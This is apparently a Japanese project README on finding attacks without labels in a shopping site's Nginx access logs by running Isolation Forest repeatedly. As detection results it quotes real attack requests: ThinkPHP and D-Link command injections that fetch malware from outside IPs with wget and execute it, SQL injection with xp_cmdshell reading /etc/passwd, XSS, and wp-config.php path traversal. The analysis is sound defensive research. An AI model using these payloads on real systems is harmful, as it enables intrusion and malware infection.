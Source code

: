 # Walu(Web Application Log Unveiler)

https://www.scutum.jp/information/waf_tech_blog/2021/01/waf-blog-077.html
 
　上記Blog（WAF Tech Blog）から自分なりに調査した結果のメモ。

　ラベル付け無しに攻撃を検知したい。そのためには正常系から離れたデータ、つまり「外れ値」を攻撃と定義して、異常検知アルゴリズムを用いる。上記blogではIsolation forestを使用。データセットは[Harvard Dataverse](https://dataverse.harvard.edu/dataset.xhtml?persistentId=doi:10.7910/DVN/3QBYB5)にあるAccess.log.zip。イラン実在のショッピングサイトにおける2019年1月からの数日間のアクセスログをNginxにより取得。1036万行（3.3GB）。

　上記blogと同条件で取り出したデータから、ランダムに抽出した10000件のデータを2次元にマッピング（画像1）。データセットを調査するとScale-freeしている。[ipynb/viz01.ipynb](ipynb/viz01.ipynb) [[mybinder.org](https://mybinder.org/v2/gh/kenjiaiko/Walu/main?filepath=ipynb%2Fviz01.ipynb)]

<img src="ipynb/t-SNE10000.jpg" width="300">（画像1）

　異常検知において正常系と判断されるのは大きなクラスタ、よって小さいクラスタ群が外れ値となる。データセットがScale-freeしているため外れ値となったクラスタ群を集めて再度Isolation forestを適用すれば、さらなる外れ値が算出される。スコアの閾値を0.25にし、2回Isolation forestを適用すると

```
$ ./run.sh 2 0.25
```

```
$ head -n 2 data/result_by_ip.txt
0.186 185.222.202.118 - - [22/Jan/2019:09:15:46 +0330] "GET /public/index.php?s=/index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]=cd%20/tmp;wget%20http://185.222.202.118/bins/rift.x86;cat%20rift.x86%20%3E%20efjins;chmod%20777%20efjins;./efjins%20thinkphp HTTP/1.1" 301 178 "-" "python-requests/2.4.3 CPython/2.7.9 Linux/3.16.0-4-amd64" "-"
0.188 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　1,2行目に明確な攻撃がくる。61,62行目にはSELECT,UNIONを含んだもの。

```
0.261 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] "GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1035 "-" "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4" "-"
0.261 5.101.40.234 - - [23/Jan/2019:06:53:01 +0330] "GET /image/{{basketItem.id}}?type=productModel&wh=50x50&fhnz%3D1551%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 301 178 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.3 Safari/534.24" "-"
```

　次に専門家による特徴選択をしないケース。例えば特定の文字（Char）のCountのみを特徴とする場合。

```
$ python printspchars.py > features.txt
$ ./run.sh 2 0.30
```

　先頭から怪しいアクセスは続くが、明確なのは11行目以降。
 
```
0.204 108.61.86.94 - - [24/Jan/2019:13:08:01 +0330] "GET /login.cgi?cli=aa%20aa%27;wget%20http://108.61.86.94/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1" 400 166 "-" "Solstice/2.0" "-"
```

　それなりには攻撃アクセスが上位（低いスコア）になっている。ただし、先ほど2行目にあったアクセスは、こちらでは107行目：スコア0.344とかなり遅い登場。

```
0.344 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] "GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1" 301 178 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0" "-"
```

　当然、専門家が特徴を設定した方が良いが、適当な特徴でもそれなりに（分析には差し障りない程度に）良い結果が得られるようである。

### 分析

- 上記BlogではJavaで書かれているが、それとほぼ同様のpythonコード。[ipynb/viz02.ipynb](ipynb/viz02.ipynb)
- ラベルのない1036万行のデータに対してIsolation forestを繰り返す。
- IPごとにもっともScoreの高いアクセスを抽出。742行。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)
- 742行を人間が確認。

　全ての外れ値が真に攻撃であるならこれでOKなのだが、当然そうではないので、ここからは人間が確認していく。[ipynb/result_by_ip.txt](ipynb/result_by_ip.txt)の最初の29行ほどは/rapidGrails/jsonListリクエストが続く。まぁ攻撃ではないだろう。そして30行目に明確な攻撃が見つかる。
 
 ```
-0.7341514235140854 202.70.250.38 - - [24/Jan/2019:15:58:56 +0330] GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://185.255.25.168/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1\x00 400 166 - - -
```

　最初のパターンはindex.phpに対してshell_exec, wgetをするもの。他にも複数見つかる（32-50行目）。これをpattern1とする。続いて51行目。

```
-0.7335728824690786 176.121.14.183 - - [25/Jan/2019:12:07:57 +0330] GET /image/29000?name=6aba3c.jpg&amp%3Bwh=200x200&HMCj%3D1300%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1 200 1035 - Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9b4) Gecko/2008031317 Firefox/3.0b4 -
```

　UNION, SELECT, script, alertが入ったもの。明らかに攻撃を意図したアクセス。これをpattern2。その後pattern1が続き、126行目に再びpattern2が出てくる。そして206行目。

```
-0.6859619404158754 151.25.29.64 - - [22/Jan/2019:05:55:47 +0330] GET /login.cgi?cli=aa%20aa%27;wget%20http://217.61.5.226/bins/Solstice.mips%20-O%20->%20/tmp/.Solstice;chmod%20777%20/tmp/.Solstice;/tmp/.Solstice%20dlink%27$ HTTP/1.1 400 166 - Solstice/2.0 -
```

　login.cgi, wgetが入ったもの。これをpattern3。

```
-0.6626657948031308 37.137.14.150 - - [22/Jan/2019:16:09:03 +0330] GET /m/product/33487/64141/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR%22%3E%3Cdiv%20class%3D%22kharid-khoob%22style%3D%22background-image%3A%20url%28%2FdiscountLabel%2Fget%2F3?utm_content=2005&utm_medium=26&utm_campaign=GPB&utm_term=209&type=desktopSmallIcon%29%3Bwidth%3A75px%3Bheight%3A77px%3B%3Futm_source%3D6 HTTP/1.1 404 211 https://www.garda.ir/%D9%84%D9%88%D8%A7%D8%B2%D9%85-%D8%AE%D8%A7%D9%86%DA%AF%DB%8C-%D9%88-%D8%A2%D8%B4%D9%BE%D8%B2%D8%AE%D8%A7%D9%86%D9%87/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C/%D8%AC%D8%A7%D8%B1%D9%88-%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D9%88%D8%B4/%D8%AC%D8%A7%D8%B1%D9%88%D8%A8%D8%B1%D9%82%DB%8C-%D8%A8%D8%A7-%D9%BE%D8%A7%DA%A9%D8%AA-%D8%A8%D9%88%D8%B4-%D9%85%D8%AF%D9%84-BGL8PRO5IR-214503 Mozilla/5.0 (iPhone; CPU iPhone OS 9_3_5 like Mac OS X) AppleWebKit/601.1.46 (KHTML, like Gecko) Version/9.0 Mobile/13G36 Safari/601.1 -
```

```
-0.6582348010972741 2.183.9.23 - - [23/Jan/2019:10:36:16 +0330] GET /image/29/productTypeTy%3C/div%3E%3Cstyle%3E.notFoundList%20%7Bdisplay:%20block;padding-top:%2010px;%7D.notFoundList%20li%20%7Blist-style:%20none;display:%20inline-block;margin:%205px;%7D.notFoundList%20a%20%7Blist-style:%20none;background:%20 HTTP/1.1 200 11 https://www.zanbil.ir/filter/b136,b261,b74,p5 Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36 -
```

　230行目、/m/product/にdivタグを入れたもの。pattern4。242行目、/divタグで閉じたもの。pattern4亜種。

```
-0.6057850284293474 62.210.157.10 - - [25/Jan/2019:21:20:36 +0330] GET /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php HTTP/1.1 301 178 - Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0 -
```

```
-0.5928439132758191 104.249.46.47 - - [26/Jan/2019:18:30:49 +0330] GET /image/27458?name=...............1.jpg&wh=200x200 HTTP/1.1 200 5937 - Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko -
```

　304行目、../wp-config.php。pattern5。315行目、name=....jpg。（攻撃じゃないが）一応pattern5亜種。

　以上が攻撃アクセス。pattern1-5を検知する手法を考案すれば良い。

### 課題

　ラベルが付けばあとは適当なアルゴリズムで学習させれば良い。課題はいかに「ラベル付け」を自動化できるか。もちろんIsolation forestだけ（というより単一のアルゴリズムだけ）では無理だろうが、その解決法を探すことが今後の課題。
